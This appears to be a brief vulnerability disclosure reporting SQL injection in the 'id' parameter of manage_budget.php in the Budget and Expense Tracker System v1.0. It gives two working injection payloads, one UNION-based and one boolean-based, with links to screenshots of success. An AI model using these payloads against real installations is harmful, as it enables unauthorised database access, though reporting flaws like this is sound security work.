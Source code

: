 # Budget and Expense Tracker System v1.0 has SQL injection

BUG_Author：wucwu1

Website source address: https://www.sourcecodester.com/php/14893/budget-and-expense-tracker-system-php-free-source-code.html

Vulnerability File: /expense_budget/admin/budget/manage_budget.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: id=-1' union all select null,null,null,null,null,null,null,null,null,concat(0x56575859,0x60616263),null,null,null-- -

UNION query successful.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/7.png)

Payload2: id=243' AND 123=123 AND 'qwe'='qwe

The Boolean value is judged correctly, so the page is displayed normally.

![image](https://github.com/M9KJ-TEAM/CVEReport/blob/main/8.png)
